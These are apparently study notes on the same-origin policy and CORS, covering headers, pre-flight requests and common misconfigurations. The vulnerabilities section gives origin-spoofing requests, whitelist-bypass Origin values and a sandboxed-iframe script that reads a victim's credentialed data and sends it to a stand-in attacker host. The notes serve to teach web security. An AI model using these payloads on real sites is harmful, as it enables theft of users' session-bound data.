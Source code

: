 # Content 
- [SOP](#sop)
- [CORS](#cors)
  - [CORS Headers](#cors-headers)
  - [Pre-flight checks](#pre-flight-checks)
- [Vulnerabilities](#vulnerabilities)

## SOP 
Generally, embedding a cross-origin resource is permitted, while reading a cross-origin resource is blocked. [source](https://web.dev/same-origin-policy/)
| Element     | Cross-Origin Permissions                                        |
|-------------|----------------------------------------------------------------|
| iframes     | Cross-origin embedding is usually permitted (depending on the X-Frame-Options directive), but cross-origin reading (such as using JavaScript to access a document in an iframe) isn't. |
| CSS         | Cross-origin CSS can be embedded using a <link> element or an @import in a CSS file. The correct Content-Type header may be required. |
| forms       | Cross-origin URLs can be used as the action attribute value of form elements. A web application can write form data to a cross-origin destination. |
| images      | Embedding cross-origin images is permitted. However, reading cross-origin image data (such as retrieving binary data from a cross-origin image using JavaScript) is blocked. |
| multimedia  | Cross-origin video and audio can be embedded using <video> and <audio> elements. |
| script      | Cross-origin scripts can be embedded; however, access to certain APIs (such as cross-origin fetch requests) might be blocked. |

There are various exceptions to the same-origin policy:
- Some objects are writable but not readable cross-domain, such as the location object or the location.href property from iframes or new windows.
- Some objects are readable but not writable cross-domain, such as the length property of the window object (which stores the number of frames being used on the page) and the closed property.
- The replace function can generally be called cross-domain on the location object.
- You can call certain functions cross-domain. For example, you can call the functions close, blur and focus on a new window. The postMessage function can also be called on iframes and new windows in order to send messages from one domain to another.


## CORS 
Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). 


### CORS Headers
- request
```http
Origin : domain
```
- response
```http
Access-Control-Allow-Origin: * | null | domain 
Access-Control-Allow-Credentials: true | false
```
### Pre-flight checks
when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the OPTIONS method
- response
```http
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240                                => defines a maximum timeframe for caching the pre-flight response for reuse
```


## Vulnerabilities
### Server-generated ACAO header from client-specified Origin header
- request
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
- response
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

### Errors parsing Origin headers
- Mistakes often arise when implementing CORS origin whitelists. 
- These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. 
- Any mistakes in the implementation can lead to access being granted to unintended external domains.



For example, suppose an application grants access to all domains ending in: `normal-website.com`
```
Origin: https://hackersnormal-website.com
```
For example, suppose an application grants access to all domains beginning with `normal-website.com`
```
Origin: normal-website.com.evil-user.net
```

### Whitelisted null origin value
For example, this can be done using a sandboxed iframe cross-origin request of the form:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
